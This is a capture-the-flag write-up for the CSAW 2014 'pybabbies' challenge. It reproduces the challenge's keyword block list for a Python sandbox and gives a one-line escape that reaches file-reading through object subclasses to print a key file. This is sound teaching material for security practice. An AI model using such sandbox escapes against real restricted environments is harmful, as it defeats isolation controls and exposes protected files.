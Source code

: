 # CSAW CTF 2014: pybabbies

**Category:** Exploitation
**Points:** 200
**Description:**

> so secure it hurts
>
> ```bash
> nc 54.165.210.171 12345
> ```
>
> Written by ColdHeat
>
> [pyshell.py](pyshell.py)

## Write-up

[The provided Python script](pyshell.py) is a Python sandbox that disallows the use of the following commands:

```py
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
```

One possible solution is the following:

```python
print(().__class__.__bases__[0].__subclasses__()[40]('./key').read())
```

This prints the contents of the `key` file:

```
flag{definitely_not_intro_python}
```

The flag is `definitely\_not\_intro\_python`.

## Other write-ups and resources

* <http://rotlogix.com/2014/09/22/csaw-exploitation-200-pybabies/>
* <http://evandrix.github.io/ctf/2014-csaw-exploitation-200-pybabbies.html>
* <https://hexplo.it/escaping-the-csawctf-python-sandbox/>
* <http://sugarstack.io/csaw-2014-pybabbies.html>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
* <http://www.incertia.net/blog/csaw-ctf-quals-2014-pybabies/>
* <http://bruce30262.logdown.com/posts/234935-csaw-ctf-2014-exploitation-200-pybabbies>

